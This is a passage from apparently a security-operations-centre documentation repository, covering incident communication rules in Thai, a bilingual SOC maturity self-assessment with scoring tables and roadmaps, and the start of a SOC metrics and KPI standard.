
| ✅ ควรทำ | ❌ ไม่ควรทำ |
|:---|:---|
| ใช้ภาษาชัดเจน กระชับ | ใช้ศัพท์เทคนิคกับฝ่ายบริหาร |
| ระบุ Incident ID ทุกการสื่อสาร | ส่ง PII/IoC ผ่านช่องทางไม่เข้ารหัส |
| บันทึกทุกการสื่อสารใน Ticket | โพสต์รายละเอียดเหตุการณ์ลงโซเชียล |
| ใช้ TLP labeling สำหรับข้อมูลที่แชร์ | แจ้งข่าวกับสื่อโดยไม่ผ่าน CISO |
| ยืนยันผู้รับก่อนส่งข้อมูลสำคัญ | คาดเดาสาเหตุก่อนสอบสวนเสร็จ |

## ตารางการสื่อสารตามระดับเหตุการณ์

| ระดับ | แจ้งใคร | ช่องทาง | ความถี่อัปเดต |
|:---|:---|:---|:---|
| **Critical** | CISO + SOC Manager + SOC Lead | โทรศัพท์ + อีเมล | ทุก 30 นาที |
| **High** | SOC Manager + SOC Lead | อีเมล + แชท | ทุก 1 ชั่วโมง |
| **Medium** | SOC Lead | แชท | ทุก 4 ชั่วโมง |
| **Low** | SOC Lead | Ticket อัปเดต | วันละครั้ง |

### Communication Channel Matrix

| Situation | Channel | Fallback |
|:---|:---|:---|
| Active incident | War room (Teams) | Phone bridge |
| Shift handoff | Chat + Document | Email |
| Escalation | Phone + Ticket | SMS |
| Routine update | Email | Chat |

### Communication SLA

| Type | Response |
|:---|:---|
| Critical | 5 min |
| Routine | 30 min |

## เอกสารที่เกี่ยวข้อง

- [มาตรฐานส่งมอบกะ](Shift_Handoff.th.md)
- [Escalation Matrix](../05_Incident_Response/Escalation_Matrix.th.md)
- [กรอบ IR](../05_Incident_Response/Framework.th.md)


---

## File: 06_Operations_Management/SOC_Maturity_Assessment.en.md

# SOC Maturity Assessment

**Document ID**: OPS-SOP-015
**Version**: 1.0
**Classification**: Internal
**Last Updated**: 2026-02-15

> A **self-assessment tool** to measure SOC capability maturity across 10 domains. Use quarterly to track progress, identify gaps, plan investments, and report to leadership. Based on SOC-CMM (SOC Capability Maturity Model) principles.

---

## Maturity Levels

| Level | Name | Description |
|:---:|:---|:---|
| **0** | Non-existent | No capability, no awareness |
| **1** | Initial | Ad-hoc, reactive, person-dependent, undocumented |
| **2** | Managed | Basic processes defined, partially documented, inconsistently followed |
| **3** | Defined | Standardized processes, documented SOPs, consistently followed |
| **4** | Quantitative | Metrics-driven, KPIs tracked, continuous measurement |
| **5** | Optimizing | Continuous improvement, automated, industry-leading |

```mermaid
graph LR
    L0[0 Non-existent] --> L1[1 Initial]
    L1 --> L2[2 Managed]
    L2 --> L3[3 Defined]
    L3 --> L4[4 Quantitative]
    L4 --> L5[5 Optimizing]

    style L0 fill:#dc2626,color:#fff
    style L1 fill:#f97316,color:#fff
    style L2 fill:#eab308,color:#000
    style L3 fill:#22c55e,color:#fff
    style L4 fill:#3b82f6,color:#fff
    style L5 fill:#8b5cf6,color:#fff
```

---

## Assessment Domains

### Domain 1: People & Organization

| # | Capability | Level 1 | Level 3 | Level 5 | Current | Target |
|:---:|:---|:---|:---|:---|:---:|:---:|
| 1.1 | **Staffing** | Understaffed, single shift | 24×7 coverage, defined tiers | Flexible model, cross-trained | __/5 | __/5 |
| 1.2 | **Roles & responsibilities** | Informal, unclear | Documented, RACI defined | Dynamic, skill-based routing | __/5 | __/5 |
| 1.3 | **Training program** | No formal training | Annual training plan, certs tracked | CTF, purple team, career paths | __/5 | __/5 |
| 1.4 | **Knowledge management** | Tribal knowledge | Wiki, runbooks documented | Searchable KB, auto-suggestions | __/5 | __/5 |
| 1.5 | **Analyst retention** | High turnover (> 30%) | Moderate (15–30%) | Low (< 15%), clear growth path | __/5 | __/5 |

**Domain Score**: \_\_/25

---

### Domain 2: Process & Procedures

| # | Capability | Level 1 | Level 3 | Level 5 | Current | Target |
|:---:|:---|:---|:---|:---|:---:|:---:|
| 2.1 | **Alert triage process** | Ad-hoc, no standard | Documented runbook | Automated triage + ML scoring | __/5 | __/5 |
| 2.2 | **Incident response** | Reactive, no playbooks | 15+ playbooks, exercised annually | 30+ playbooks, automated response | __/5 | __/5 |
| 2.3 | **Escalation procedures** | Informal, person-dependent | Documented matrix, SLAs defined | Auto-escalation, SOAR-integrated | __/5 | __/5 |
| 2.4 | **Change management** | No change process | CAB reviews, documented changes | Automated CI/CD for detection | __/5 | __/5 |
| 2.5 | **Shift handoff** | Verbal only | Standardized template | Automated handoff with context | __/5 | __/5 |

**Domain Score**: \_\_/25

---

### Domain 3: Technology & Tools

| # | Capability | Level 1 | Level 3 | Level 5 | Current | Target |
|:---:|:---|:---|:---|:---|:---:|:---:|
| 3.1 | **SIEM** | Basic deployment, limited rules | Tuned rules, 80%+ log sources | Full ATT&CK coverage, ML models | __/5 | __/5 |
| 3.2 | **EDR** | Antivirus only | EDR deployed, alerts in SIEM | XDR with auto-containment | __/5 | __/5 |
| 3.3 | **SOAR** | No automation | Basic playbooks (5+) | Full automation catalog (30+) | __/5 | __/5 |
| 3.4 | **Threat intelligence** | No TI feeds | 3+ feeds integrated, IOC matching | TI platform, automated hunting | __/5 | __/5 |
| 3.5 | **Ticketing system** | Email/spreadsheet | Dedicated ticketing, SLA tracking | Integrated ITSM + SOAR | __/5 | __/5 |

**Domain Score**: \_\_/25

---

### Domain 4: Detection Engineering

| # | Capability | Level 1 | Level 3 | Level 5 | Current | Target |
|:---:|:---|:---|:---|:---|:---:|:---:|
| 4.1 | **Detection rules** | Vendor defaults only | Custom rules, tested | DaC pipeline, version-controlled | __/5 | __/5 |
| 4.2 | **ATT&CK coverage** | < 20% techniques | 40–60% techniques | > 80% techniques | __/5 | __/5 |
| 4.3 | **False positive management** | > 50% FP rate | < 30% FP rate, tuning process | < 10% FP, auto-tuning | __/5 | __/5 |
| 4.4 | **Detection testing** | No testing | Annual purple team | Continuous BAS + automated testing | __/5 | __/5 |
| 4.5 | **Rule lifecycle** | No lifecycle | Create/review/retire process | Metrics-driven, auto-deprecation | __/5 | __/5 |

**Domain Score**: \_\_/25

---

### Domain 5: Log Management & Visibility

| # | Capability | Level 1 | Level 3 | Level 5 | Current | Target |
|:---:|:---|:---|:---|:---|:---:|:---:|
| 5.1 | **Log source coverage** | < 30% of assets | 60–80% of assets | > 95% of assets | __/5 | __/5 |
| 5.2 | **Log quality** | Raw, unparsed | Parsed, normalized | Enriched, correlated | __/5 | __/5 |
| 5.3 | **Retention** | < 30 days | 90–180 days | 1+ year, tiered storage | __/5 | __/5 |
| 5.4 | **Log source health** | No monitoring | Manual checks | Automated health alerts | __/5 | __/5 |
| 5.5 | **Cloud visibility** | No cloud logs | Basic cloud logs (IAM, network) | Full cloud trail + CSPM | __/5 | __/5 |

**Domain Score**: \_\_/25

---

### Domain 6: Incident Response

| # | Capability | Level 1 | Level 3 | Level 5 | Current | Target |
|:---:|:---|:---|:---|:---|:---:|:---:|
| 6.1 | **Response time (MTTR)** | > 4 hours | 1–4 hours | < 30 minutes | __/5 | __/5 |
| 6.2 | **Containment capability** | Manual, slow | Semi-automated | Fully automated containment | __/5 | __/5 |
| 6.3 | **Forensics capability** | None | Basic (disk, logs) | Full (memory, network, malware RE) | __/5 | __/5 |
| 6.4 | **Communication** | Ad-hoc notifications | Templates, stakeholder matrix | Automated notification workflows | __/5 | __/5 |
| 6.5 | **Post-incident review** | None | Lessons learned per P1/P2 | Systematic, metrics-tracked | __/5 | __/5 |

**Domain Score**: \_\_/25

---

### Domain 7: Threat Intelligence

| # | Capability | Level 1 | Level 3 | Level 5 | Current | Target |
|:---:|:---|:---|:---|:---|:---:|:---:|
| 7.1 | **TI consumption** | No TI feeds | Multiple feeds, auto-ingested | TIP with scoring, prioritization | __/5 | __/5 |
| 7.2 | **TI production** | No internal TI | IOCs from incidents shared | Full TI reports, industry sharing | __/5 | __/5 |
| 7.3 | **Threat hunting** | No hunting | Quarterly hunts, hypothesis-based | Continuous, automated hunting | __/5 | __/5 |
| 7.4 | **TI integration** | Manual lookups | Auto-enrichment in SIEM | TI drives detection + response | __/5 | __/5 |
| 7.5 | **Threat landscape** | No awareness | Quarterly reports | Real-time landscape dashboard | __/5 | __/5 |

**Domain Score**: \_\_/25

---

### Domain 8: Metrics & Reporting

| # | Capability | Level 1 | Level 3 | Level 5 | Current | Target |
|:---:|:---|:---|:---|:---|:---:|:---:|
| 8.1 | **KPI tracking** | None | Monthly KPI report | Real-time dashboard | __/5 | __/5 |
| 8.2 | **SLA measurement** | No SLAs | SLAs defined and measured | Automated SLA tracking + alerts | __/5 | __/5 |
| 8.3 | **Executive reporting** | Ad-hoc | Monthly report template | Automated dashboards, board-ready | __/5 | __/5 |
| 8.4 | **Trend analysis** | No trend data | 6-month trends | Predictive analytics | __/5 | __/5 |
| 8.5 | **Benchmarking** | No benchmarks | Internal benchmarks | Industry benchmarks (peers) | __/5 | __/5 |

**Domain Score**: \_\_/25

---

### Domain 9: Compliance & Governance

| # | Capability | Level 1 | Level 3 | Level 5 | Current | Target |
|:---:|:---|:---|:---|:---|:---:|:---:|
| 9.1 | **Regulatory compliance** | Unknown status | Mapped to frameworks | Continuous compliance monitoring | __/5 | __/5 |
| 9.2 | **Audit readiness** | Not audit-ready | Evidence collected, matrices ready | Always-on audit evidence | __/5 | __/5 |
| 9.3 | **Data privacy** | No PDPA awareness | PDPA procedures documented | Automated PII detection + response | __/5 | __/5 |
| 9.4 | **Policy enforcement** | No enforcement | Periodic reviews | Real-time policy monitoring | __/5 | __/5 |
| 9.5 | **Risk management** | No risk tracking | Risk register maintained | Dynamic risk scoring | __/5 | __/5 |

**Domain Score**: \_\_/25

---

### Domain 10: Automation & Orchestration

| # | Capability | Level 1 | Level 3 | Level 5 | Current | Target |
|:---:|:---|:---|:---|:---|:---:|:---:|
| 10.1 | **Alert enrichment** | Manual lookups | Auto-enrichment (50%+ alerts) | Full auto-enrichment + scoring | __/5 | __/5 |
| 10.2 | **Playbook automation** | No automation | 10+ SOAR playbooks | 30+ playbooks, self-healing | __/5 | __/5 |
| 10.3 | **Automated response** | None | Auto-contain for P1 (with approval) | Full auto-response (most scenarios) | __/5 | __/5 |
| 10.4 | **Integration maturity** | Siloed tools | Basic API integrations | Fully orchestrated tool ecosystem | __/5 | __/5 |
| 10.5 | **AI/ML adoption** | None | Anomaly detection prototypes | Production ML models, analyst assist | __/5 | __/5 |

**Domain Score**: \_\_/25

---

## Summary Scorecard

| # | Domain | Score | Max | % | Level |
|:---:|:---|:---:|:---:|:---:|:---:|
| 1 | People & Organization | _____ | 25 | ___% | L_ |
| 2 | Process & Procedures | _____ | 25 | ___% | L_ |
| 3 | Technology & Tools | _____ | 25 | ___% | L_ |
| 4 | Detection Engineering | _____ | 25 | ___% | L_ |
| 5 | Log Management & Visibility | _____ | 25 | ___% | L_ |
| 6 | Incident Response | _____ | 25 | ___% | L_ |
| 7 | Threat Intelligence | _____ | 25 | ___% | L_ |
| 8 | Metrics & Reporting | _____ | 25 | ___% | L_ |
| 9 | Compliance & Governance | _____ | 25 | ___% | L_ |
| 10 | Automation & Orchestration | _____ | 25 | ___% | L_ |
| | **TOTAL** | **_____** | **250** | **___%** | **L_** |

### Level Interpretation

| Score Range | Overall Level | Interpretation |
|:---:|:---:|:---|
| 0–50 (0–20%) | **Level 1** | Initial — Major gaps, reactive posture |
| 51–100 (21–40%) | **Level 2** | Managed — Basic capabilities, significant improvement needed |
| 101–150 (41–60%) | **Level 3** | Defined — Solid foundation, room for optimization |
| 151–200 (61–80%) | **Level 4** | Quantitative — Metrics-driven, maturing well |
| 201–250 (81–100%) | **Level 5** | Optimizing — Industry-leading, continuous improvement |

---

## Radar Chart Template

```mermaid
---
config:
  radar:
    axisLabelFontSize: 12
---
radar-beta
  axis People, Process, Technology, Detection, "Log Mgmt", IR, TI, Metrics, Compliance, Automation
  curve "Current" { 0, 0, 0, 0, 0, 0, 0, 0, 0, 0 }
  curve "Target" { 0, 0, 0, 0, 0, 0, 0, 0, 0, 0 }
```

> Replace zeros with actual percentage scores (0–100).

---

## Improvement Roadmap

### Quick Wins (0–3 months)

| Gap | Domain | Current | Target | Action | Effort |
|:---|:---:|:---:|:---:|:---|:---:|
| ______________ | _____ | L_ | L_ | ________________________ | ___ days |
| ______________ | _____ | L_ | L_ | ________________________ | ___ days |

### Medium-Term (3–6 months)

| Gap | Domain | Current | Target | Action | Effort |
|:---|:---:|:---:|:---:|:---|:---:|
| ______________ | _____ | L_ | L_ | ________________________ | ___ weeks |
| ______________ | _____ | L_ | L_ | ________________________ | ___ weeks |

### Strategic (6–12 months)

| Gap | Domain | Current | Target | Action | Effort | Budget |
|:---|:---:|:---:|:---:|:---|:---:|:---:|
| ______________ | _____ | L_ | L_ | ________________________ | ___ months | $_____ |

---

## Assessment Schedule

| Activity | Frequency | Participants | Output |
|:---|:---:|:---|:---|
| Full maturity assessment | Quarterly | SOC Manager, Team Leads, CISO | Scorecard + roadmap |
| Domain deep-dive | Monthly (rotating) | Domain leads | Domain improvement plan |
| Benchmark comparison | Annually | External assessor | Industry comparison report |
| Board presentation | Semi-annually | CISO | Executive maturity summary |

---

## Related Documents

-   [SOC Metrics & KPIs](SOC_Metrics.en.md) — Performance measurement
-   [KPI Dashboard Template](KPI_Dashboard_Template.en.md) — Monthly reporting
-   [SOC Automation Catalog](SOC_Automation_Catalog.en.md) — Automation maturity
-   [Log Source Matrix](Log_Source_Matrix.en.md) — Data source coverage
-   [Compliance Mapping](../07_Compliance_Privacy/Compliance_Mapping.en.md) — Framework compliance
-   [Third-Party Risk](Third_Party_Risk.en.md) — Vendor risk management
-   [Threat Landscape Report](Threat_Landscape_Report.en.md) — Threat awareness


---

## File: 06_Operations_Management/SOC_Maturity_Assessment.th.md

# SOC Maturity Assessment / การประเมินวุฒิภาวะ SOC

**รหัสเอกสาร**: OPS-SOP-015
**เวอร์ชัน**: 1.0
**การจัดชั้นความลับ**: ใช้ภายใน
**อัปเดตล่าสุด**: 2026-02-15

> เครื่องมือ **ประเมินตนเอง** สำหรับวัดวุฒิภาวะ SOC ใน 10 ด้าน ใช้ทุกไตรมาสเพื่อติดตามความก้าวหน้า, หาช่องว่าง, วางแผนลงทุน, และรายงานผู้บริหาร อิงหลักการ SOC-CMM

---

## ระดับวุฒิภาวะ

| ระดับ | ชื่อ | คำอธิบาย |
|:---:|:---|:---|
| **0** | ไม่มี | ไม่มีความสามารถ ไม่ตระหนัก |
| **1** | เริ่มต้น | ทำเป็นครั้งคราว, reactive, ไม่มีเอกสาร |
| **2** | จัดการ | กระบวนการพื้นฐาน, เอกสารบางส่วน |
| **3** | มาตรฐาน | กระบวนการเป็นมาตรฐาน, มี SOP, ปฏิบัติสม่ำเสมอ |
| **4** | วัดผลได้ | ขับเคลื่อนด้วย KPI, วัดผลต่อเนื่อง |
| **5** | ปรับปรุงต่อเนื่อง | ปรับปรุงอัตโนมัติ, เป็นผู้นำอุตสาหกรรม |

---

## ด้านที่ 1: คนและองค์กร

| # | ความสามารถ | ระดับ 1 | ระดับ 3 | ระดับ 5 | ปัจจุบัน | เป้าหมาย |
|:---:|:---|:---|:---|:---|:---:|:---:|
| 1.1 | **อัตรากำลัง** | กำลังคนไม่พอ, กะเดียว | 24×7, กำหนด tier | ยืดหยุ่น, cross-trained | __/5 | __/5 |
| 1.2 | **บทบาทหน้าที่** | ไม่เป็นทางการ | RACI กำหนดชัด | กำหนดตามทักษะแบบ dynamic | __/5 | __/5 |
| 1.3 | **โปรแกรมฝึกอบรม** | ไม่มี | แผนรายปี, ติดตาม cert | CTF, purple team, career path | __/5 | __/5 |
| 1.4 | **การจัดการความรู้** | ความรู้อยู่ในตัวบุคคล | Wiki, runbooks | KB ค้นหาได้, auto-suggest | __/5 | __/5 |
| 1.5 | **การรักษา analyst** | ลาออก > 30% | 15–30% | < 15%, เส้นทางเติบโตชัด | __/5 | __/5 |

**คะแนนด้าน**: \_\_/25

---

## ด้านที่ 2: กระบวนการ

| # | ความสามารถ | ระดับ 1 | ระดับ 3 | ระดับ 5 | ปัจจุบัน | เป้าหมาย |
|:---:|:---|:---|:---|:---|:---:|:---:|
| 2.1 | **Alert triage** | ไม่มีมาตรฐาน | Runbook, document | Auto triage + ML scoring | __/5 | __/5 |
| 2.2 | **IR** | Reactive, ไม่มี playbook | 15+ playbooks | 30+ playbooks, automated | __/5 | __/5 |
| 2.3 | **Escalation** | ไม่เป็นทางการ | Matrix + SLA | Auto-escalation + SOAR | __/5 | __/5 |
| 2.4 | **Change management** | ไม่มี | CAB review | CI/CD สำหรับ detection | __/5 | __/5 |
| 2.5 | **Shift handoff** | ปากเปล่า | Template มาตรฐาน | อัตโนมัติ + context | __/5 | __/5 |

**คะแนนด้าน**: \_\_/25

---

## ด้านที่ 3: เทคโนโลยี

| # | ความสามารถ | ระดับ 1 | ระดับ 3 | ระดับ 5 | ปัจจุบัน | เป้าหมาย |
|:---:|:---|:---|:---|:---|:---:|:---:|
| 3.1 | **SIEM** | Deploy พื้นฐาน | Tuned rules, 80%+ log sources | ATT&CK ครบ, ML models | __/5 | __/5 |
| 3.2 | **EDR** | Antivirus เท่านั้น | EDR + alerts ใน SIEM | XDR + auto-contain | __/5 | __/5 |
| 3.3 | **SOAR** | ไม่มี automation | Playbooks 5+ | Catalog 30+ | __/5 | __/5 |
| 3.4 | **Threat intelligence** | ไม่มี TI | 3+ feeds, IOC matching | TI platform, auto hunting | __/5 | __/5 |
| 3.5 | **Ticketing** | Email/spreadsheet | Ticketing + SLA tracking | ITSM + SOAR integrated | __/5 | __/5 |

**คะแนนด้าน**: \_\_/25

---

## ด้านที่ 4: Detection Engineering

| # | ความสามารถ | ระดับ 1 | ระดับ 3 | ระดับ 5 | ปัจจุบัน | เป้าหมาย |
|:---:|:---|:---|:---|:---|:---:|:---:|
| 4.1 | **Detection rules** | ค่าเริ่มต้น vendor | Custom rules, tested | DaC pipeline, version control | __/5 | __/5 |
| 4.2 | **ATT&CK coverage** | < 20% | 40–60% | > 80% | __/5 | __/5 |
| 4.3 | **False positive** | FP > 50% | FP < 30% | FP < 10%, auto-tune | __/5 | __/5 |
| 4.4 | **Detection testing** | ไม่ทดสอบ | Purple team รายปี | BAS ต่อเนื่อง | __/5 | __/5 |
| 4.5 | **Rule lifecycle** | ไม่มี lifecycle | Create/review/retire | Metrics-driven, auto-deprecate | __/5 | __/5 |

**คะแนนด้าน**: \_\_/25

---

## ด้านที่ 5: Log Management

| # | ความสามารถ | ระดับ 1 | ระดับ 3 | ระดับ 5 | ปัจจุบัน | เป้าหมาย |
|:---:|:---|:---|:---|:---|:---:|:---:|
| 5.1 | **Log source coverage** | < 30% | 60–80% | > 95% | __/5 | __/5 |
| 5.2 | **คุณภาพ log** | Raw, ไม่ parse | Parsed, normalized | Enriched, correlated | __/5 | __/5 |
| 5.3 | **Retention** | < 30 วัน | 90–180 วัน | 1+ ปี, tiered storage | __/5 | __/5 |
| 5.4 | **Log health** | ไม่ monitor | ตรวจ manual | Alert อัตโนมัติ | __/5 | __/5 |
| 5.5 | **Cloud visibility** | ไม่มี cloud logs | IAM + network พื้นฐาน | Full cloud trail + CSPM | __/5 | __/5 |

**คะแนนด้าน**: \_\_/25

---

## ด้านที่ 6–10: (สรุปย่อ)

| # | ด้าน | คะแนน | สูงสุด |
|:---:|:---|:---:|:---:|
| 6 | **Incident Response** (MTTR, containment, forensics, comms, PIR) | _____ | 25 |
| 7 | **Threat Intelligence** (consumption, production, hunting, integration, landscape) | _____ | 25 |
| 8 | **Metrics & Reporting** (KPI, SLA, executive, trends, benchmarks) | _____ | 25 |
| 9 | **Compliance & Governance** (regulatory, audit, privacy, policy, risk) | _____ | 25 |
| 10 | **Automation & Orchestration** (enrichment, playbooks, auto-response, integration, AI/ML) | _____ | 25 |

---

## ตารางสรุปคะแนน

| # | ด้าน | คะแนน | สูงสุด | % | ระดับ |
|:---:|:---|:---:|:---:|:---:|:---:|
| 1 | คนและองค์กร | _____ | 25 | ___% | L_ |
| 2 | กระบวนการ | _____ | 25 | ___% | L_ |
| 3 | เทคโนโลยี | _____ | 25 | ___% | L_ |
| 4 | Detection Engineering | _____ | 25 | ___% | L_ |
| 5 | Log Management | _____ | 25 | ___% | L_ |
| 6 | Incident Response | _____ | 25 | ___% | L_ |
| 7 | Threat Intelligence | _____ | 25 | ___% | L_ |
| 8 | Metrics & Reporting | _____ | 25 | ___% | L_ |
| 9 | Compliance & Governance | _____ | 25 | ___% | L_ |
| 10 | Automation & Orchestration | _____ | 25 | ___% | L_ |
| | **รวม** | **_____** | **250** | **___%** | **L_** |

### ตีความระดับ

| ช่วงคะแนน | ระดับ | ความหมาย |
|:---:|:---:|:---|
| 0–50 | **Level 1** | เริ่มต้น — ช่องว่างสำคัญ, reactive |
| 51–100 | **Level 2** | จัดการ — มีพื้นฐาน, ต้องปรับปรุงมาก |
| 101–150 | **Level 3** | มาตรฐาน — พื้นฐานแข็ง, มีพื้นที่ optimize |
| 151–200 | **Level 4** | วัดผลได้ — ขับเคลื่อนด้วย metrics |
| 201–250 | **Level 5** | ปรับปรุงต่อเนื่อง — ผู้นำอุตสาหกรรม |

---

## แผนปรับปรุง

### Quick Wins (0–3 เดือน)

| ช่องว่าง | ด้าน | ปัจจุบัน | เป้าหมาย | การดำเนินการ |
|:---|:---:|:---:|:---:|:---|
| ______________ | _____ | L_ | L_ | ________________________ |

### ระยะกลาง (3–6 เดือน)

| ช่องว่าง | ด้าน | ปัจจุบัน | เป้าหมาย | การดำเนินการ |
|:---|:---:|:---:|:---:|:---|
| ______________ | _____ | L_ | L_ | ________________________ |

### เชิงกลยุทธ์ (6–12 เดือน)

| ช่องว่าง | ด้าน | ปัจจุบัน | เป้าหมาย | การดำเนินการ | งบประมาณ |
|:---|:---:|:---:|:---:|:---|:---:|
| ______________ | _____ | L_ | L_ | ________________________ | $_____ |

---

## เทมเพลตการประเมิน

### Self-Assessment Questionnaire

| # | คำถาม | ระดับ (1-5) | หลักฐาน |
|:---:|:---|:---:|:---|
| 1 | มี SIEM ที่ทำงานและรับ log ครบ? | [X] | [ระบุ] |
| 2 | มี detection rules ที่ map กับ MITRE ATT&CK? | [X] | [ระบุ] |
| 3 | มี playbooks สำหรับ top 10 use cases? | [X] | [ระบุ] |
| 4 | มี shift rotation 24/7? | [X] | [ระบุ] |
| 5 | มี KPIs tracking (MTTD, MTTR)? | [X] | [ระบุ] |
| 6 | จัด tabletop exercise อย่างน้อยปีละ 2 ครั้ง? | [X] | [ระบุ] |
| 7 | มี threat hunting program? | [X] | [ระบุ] |
| 8 | มี SOAR automation? | [X] | [ระบุ] |
| 9 | มี CTI program ที่ feed เข้า detection? | [X] | [ระบุ] |
| 10 | มี continuous improvement process? | [X] | [ระบุ] |

### Scoring Guide

| คะแนนรวม | ระดับวุฒิภาวะ | สถานะ |
|:---|:---|:---|
| 10–15 | **Level 1 — Initial** | เริ่มต้น, reactive |
| 16–25 | **Level 2 — Managed** | มี process พื้นฐาน |
| 26–35 | **Level 3 — Defined** | Process ครบ, มี metrics |
| 36–45 | **Level 4 — Quantitative** | Data-driven, automated |
| 46–50 | **Level 5 — Optimizing** | Continuous improvement |

## Gap Analysis Template

| Domain | คะแนนปัจจุบัน | เป้าหมาย | Gap | ลำดับ | Action Plan |
|:---|:---:|:---:|:---:|:---:|:---|
| People | [X]/5 | [X]/5 | [X] | 🔴/🟡/🟢 | [ระบุ] |
| Process | [X]/5 | [X]/5 | [X] | 🔴/🟡/🟢 | [ระบุ] |
| Technology | [X]/5 | [X]/5 | [X] | 🔴/🟡/🟢 | [ระบุ] |
| Detection | [X]/5 | [X]/5 | [X] | 🔴/🟡/🟢 | [ระบุ] |
| Response | [X]/5 | [X]/5 | [X] | 🔴/🟡/🟢 | [ระบุ] |
| Intelligence | [X]/5 | [X]/5 | [X] | 🔴/🟡/🟢 | [ระบุ] |

## Improvement Roadmap

```mermaid
gantt
    title SOC Maturity Improvement
    dateFormat  YYYY-MM
    section People
    Hire Tier 2 Analyst    :2026-03, 2026-05
    Cert Training          :2026-04, 2026-06
    section Process
    Playbook Development   :2026-03, 2026-04
    Tabletop Exercise      :2026-05, 2026-05
    section Technology
    SOAR Deployment        :2026-04, 2026-06
    TI Platform Setup      :2026-05, 2026-07
    section Detection
    Sigma Rule Expansion   :2026-03, 2026-06
    Hunt Program Launch    :2026-06, 2026-08
```

## Maturity Level Benchmarking

### Industry Comparison

| Level | Description | % ขององค์กรไทย |
|:---|:---|:---|
| Level 1 - Initial | Ad-hoc, reactive | 35% |
| Level 2 - Managed | Basic processes defined | 30% |
| Level 3 - Defined | Standardized SOPs | 20% |
| Level 4 - Measured | Metrics-driven | 10% |
| Level 5 - Optimized | Continuous improvement | 5% |

### Improvement Roadmap Template

| Current | Target | Gap Actions | Timeline |
|:---|:---|:---|:---|
| L1 | L2 | กำหนด SOP, สร้าง playbooks | 3-6 เดือน |
| L2 | L3 | Standardize, metrics, training | 6-12 เดือน |
| L3 | L4 | SOAR, KPI dashboards, automation | 12-18 เดือน |
| L4 | L5 | AI/ML, threat hunting, R&D | 18-24 เดือน |

### Assessment Automation

| Tool | Purpose | ใช้กับ Level |
|:---|:---|:---|
| SOC Maturity Scorer | Self-assessment | ทุก Level |
| MITRE ATT&CK Navigator | Coverage mapping | Level 3+ |
| KPI Dashboard | Metrics tracking | Level 4+ |

### Assessment Report Template

```
Executive Summary:
  Current Level: [1-5]
  Target Level: [1-5]
  Gap Count: [N] areas
  Priority Actions: [top 3]
  Timeline: [X months]
  Budget Estimate: [THB]
```

### Quick Self-Assessment

| Area | L1? | L3? | L5? |
|:---|:---|:---|:---|
| Detection | Ad-hoc | Rules+Tuning | ML+Hunt |
| Response | Manual | Playbooks | SOAR |
| Metrics | None | Basic KPIs | Predictive |

## เอกสารที่เกี่ยวข้อง

-   [SOC Metrics & KPIs](SOC_Metrics.en.md) — ตัวชี้วัด
-   [KPI Dashboard Template](KPI_Dashboard_Template.en.md) — รายงานรายเดือน
-   [SOC Automation Catalog](SOC_Automation_Catalog.en.md) — วุฒิภาวะ automation
-   [Log Source Matrix](Log_Source_Matrix.en.md) — แหล่งข้อมูล
-   [Compliance Mapping](../07_Compliance_Privacy/Compliance_Mapping.en.md) — การ comply กับ framework
-   [Third-Party Risk](Third_Party_Risk.en.md) — ความเสี่ยง vendor


---

## File: 06_Operations_Management/SOC_Metrics.en.md

# SOC Metrics & KPIs Standard

This document defines the Key Performance Indicators (KPIs) and operational metrics used to measure SOC **effectiveness**, **efficiency**, and **team health**. Metrics drive continuous improvement and enable data-driven resource allocation.

---

## Overview

```mermaid
graph LR
    Data["📊 Raw Data"] --> Metrics["📈 Metrics"]
    Metrics --> KPIs["🎯 KPIs"]
    KPIs --> Decisions["💡 Decisions"]
    Decisions --> Actions["🔧 Improvements"]
    Actions --> Data
```

### Metric Categories

| Category | Focus | Example Metrics |
|:---|:---|:---|
| ⏱️ **Efficiency** | How fast we respond | MTTD, MTTR, MTTA |
| 🎯 **Effectiveness** | How well we detect | FPR, detection coverage, dwell time |
| 👥 **Capacity** | Team workload and health | Alerts per analyst, burnout, utilization |
| 💰 **Business** | Value delivered | Cost per incident, breach prevention |
| 📊 **Compliance** | Regulatory adherence | SLA met %, audit findings |

---

## 1. Efficiency Metrics (How Fast)

### 1.1 Mean Time To Detect (MTTD)

| Attribute | Detail |
|:---|:---|
| **Definition** | Average time from **threat intrusion** to **SOC detection** |
| **Formula** | `Σ(Detection Time − Intrusion Time) / Total Incidents` |
| **Target** | < 30 minutes |
| **Measurement** | Monthly average |
| **Data Source** | SIEM timestamps, EDR first-seen |

> 💡 **Improvement levers**: Better log coverage, behavioral analytics, automated correlation, threat intel feeds

### 1.2 Mean Time To Acknowledge (MTTA)

| Attribute | Detail |
|:---|:---|
| **Definition** | Average time from **alert firing** to **analyst pickup** |
| **Formula** | `Σ(Acknowledge Time − Alert Time) / Total Alerts` |
| **Target** | < 10 minutes |
| **Measurement** | Daily average |
| **Data Source** | Ticketing system timestamps |

> 💡 **Improvement levers**: SOAR auto-enrichment, queue prioritization, staffing optimization

### 1.3 Mean Time To Respond (MTTR)

| Attribute | Detail |
|:---|:---|
| **Definition** | Average time from **detection** to **containment + remediation** |
| **Formula** | `Σ(Resolution Time − Detection Time) / Total Incidents` |
| **Target** | < 60 minutes (Critical/High) · < 4 hours (Medium) |
| **Measurement** | Monthly average, segmented by severity |
| **Data Source** | Ticketing system, IR logs |

> 💡 **Improvement levers**: Pre-approved containment actions, SOAR playbooks, clear escalation paths

### 1.4 Mean Time To Close (MTTC)

| Attribute | Detail |
|:---|:---|
| **Definition** | Average time from **incident opened** to **fully closed** (including PIR) |
| **Formula** | `Σ(Close Time − Open Time) / Total Incidents` |
| **Target** | < 24 hours (Critical) · < 72 hours (High) |
| **Measurement** | Monthly average |

---

## 2. Effectiveness Metrics (How Well)

### 2.1 False Positive Rate (FPR)

| Attribute | Detail |
|:---|:---|
| **Definition** | Percentage of alerts that are **benign** after investigation |
| **Formula** | `(False Positive Alerts / Total Alerts) × 100%` |
| **Target** | < 10% |
| **Measurement** | Weekly trend |

#### FPR Improvement Actions

| FPR Level | Action Required |
|:---|:---|
| < 5% | ✅ Excellent — maintain current tuning |
| 5–10% | ⚠️ Acceptable — review top 5 noisiest rules |
| 10–25% | 🟠 Needs attention — dedicated tuning sprint |
| > 25% | 🔴 Critical — pause new detections, focus on tuning |

> 📚 **Tuning process**: [Alert Tuning SOP](Alert_Tuning.en.md)

### 2.2 Detection Coverage

| Attribute | Detail |
|:---|:---|
| **Definition** | Percentage of **MITRE ATT&CK techniques** with at least one detection |
| **Formula** | `(Techniques with Detection / Total Relevant Techniques) × 100%` |
| **Target** | ≥ 80% of top 50 techniques |
| **Measurement** | Quarterly assessment |

